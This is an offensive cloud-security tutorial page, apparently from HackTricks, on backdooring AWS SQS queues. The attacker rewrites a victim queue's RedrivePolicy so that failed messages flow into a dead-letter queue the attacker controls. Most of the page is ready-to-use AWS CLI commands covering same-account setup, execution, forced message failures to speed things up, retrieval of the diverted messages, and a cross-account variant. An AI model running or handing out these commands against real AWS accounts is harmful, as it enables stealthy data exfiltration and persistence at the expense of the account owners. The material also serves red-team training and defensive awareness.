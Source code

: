# AWS - SQS DLQ Backdoor Persistence via RedrivePolicy/RedriveAllowPolicy

{{#include ../../../../banners/hacktricks-training.md}}

Abuse SQS Dead-Letter Queues (DLQs) to stealthily siphon data from a victim source queue by pointing its RedrivePolicy to an attacker-controlled queue. With a low maxReceiveCount and by triggering or awaiting normal processing failures, messages are automatically diverted to the attacker DLQ without changing producers or Lambda event source mappings.

## Abused Permissions
- sqs:SetQueueAttributes on the victim source queue (to set RedrivePolicy)
- sqs:SetQueueAttributes on the attacker DLQ (to set RedriveAllowPolicy)
- Optional for acceleration: sqs:ReceiveMessage on the source queue
- Optional for setup: sqs:CreateQueue, sqs:SendMessage

## Same-Account Flow (allowAll)

Preparation (attacker account or compromised principal):
```bash
REGION=us-east-1
# 1) Create attacker DLQ
ATTACKER_DLQ_URL=$(aws sqs create-queue --queue-name ht-attacker-dlq --region $REGION --query QueueUrl --output text)
ATTACKER_DLQ_ARN=$(aws sqs get-queue-attributes --queue-url "$ATTACKER_DLQ_URL" --region $REGION --attribute-names QueueArn --query Attributes.QueueArn --output text)

# 2) Allow any same-account source queue to use this DLQ
aws sqs set-queue-attributes \
  --queue-url "$ATTACKER_DLQ_URL" --region $REGION \
  --attributes '{"RedriveAllowPolicy":"{\"redrivePermission\":\"allowAll\"}"}'
```

Execution (run as compromised principal in victim account):
```bash
# 3) Point victim source queue to attacker DLQ with low retries
VICTIM_SRC_URL=<victim source queue url>
ATTACKER_DLQ_ARN=<attacker dlq arn>
aws sqs set-queue-attributes \
  --queue-url "$VICTIM_SRC_URL" --region $REGION \
  --attributes '{"RedrivePolicy":"{\"deadLetterTargetArn\":\"'"$ATTACKER_DLQ_ARN"'\",\"maxReceiveCount\":\"1\"}"}'
```

Acceleration (optional):
```bash
# 4) If you also have sqs:ReceiveMessage on the source queue, force failures
for i in {1..2}; do \
  aws sqs receive-message --queue-url "$VICTIM_SRC_URL" --region $REGION \
    --max-number-of-messages 10 --visibility-timeout 0; \
 done
```

Validation:
```bash
# 5) Confirm messages appear in attacker DLQ
aws sqs receive-message --queue-url "$ATTACKER_DLQ_URL" --region $REGION \
  --max-number-of-messages 10 --attribute-names All --message-attribute-names All
```

Example evidence (Attributes include DeadLetterQueueSourceArn):
```json
{
  "MessageId": "...",
  "Body": "...",
  "Attributes": {
    "DeadLetterQueueSourceArn": "arn:aws:sqs:REGION:ACCOUNT_ID:ht-victim-src-..."
  }
}
```

## Cross-Account Variant (byQueue)
Set RedriveAllowPolicy on the attacker DLQ to only allow specific victim source queue ARNs:
```bash
VICTIM_SRC_ARN=<victim source queue arn>
aws sqs set-queue-attributes \
  --queue-url "$ATTACKER_DLQ_URL" --region $REGION \
  --attributes '{"RedriveAllowPolicy":"{\"redrivePermission\":\"byQueue\",\"sourceQueueArns\":[\"'"$VICTIM_SRC_ARN"'\"]}"}'
```

## Impact
- Stealthy, durable data exfiltration/persistence by automatically diverting failed messages from a victim SQS source queue into an attacker-controlled DLQ, with minimal operational noise and no changes to producers or Lambda mappings.

{{#include ../../../../banners/hacktricks-training.md}}
